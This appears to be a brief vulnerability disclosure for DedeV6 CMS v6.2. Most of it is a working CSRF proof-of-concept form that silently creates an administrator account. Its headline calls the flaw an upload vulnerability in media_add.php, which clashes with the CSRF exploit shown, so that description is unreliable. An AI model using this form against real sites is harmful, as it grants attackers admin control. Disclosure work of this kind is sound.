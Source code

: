 Target is https://github.com/DedeBIZ/DedeV6

version:6.2

DedeV6 CMS v6.2 was discovered to contain a Upload vulnerability via the component /admin/media_add.php.

![1699360243454](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator01.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator02.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://dedev/admin/sys_admin_user_add.php" method="POST">
      <input type="hidden" name="&#95;csrf&#95;token" value="4865b0169e2d05daed5c1fc387b7b01f" />
      <input type="hidden" name="dopost" value="add" />
      <input type="hidden" name="userid" value="verify" />
      <input type="hidden" name="uname" value="verify" />
      <input type="hidden" name="pwd" value="verify" />
      <input type="hidden" name="usertype" value="10" />
      <input type="hidden" name="typeids&#91;&#93;" value="0" />
      <input type="hidden" name="tname" value="verify" />
      <input type="hidden" name="email" value="verify&#64;gmail&#46;com" />
      <input type="hidden" name="safecode" value="2ab53885e6a4f85e0a935c2f" />
      <input type="hidden" name="randcode" value="27950" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator03.png)

successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator04.png)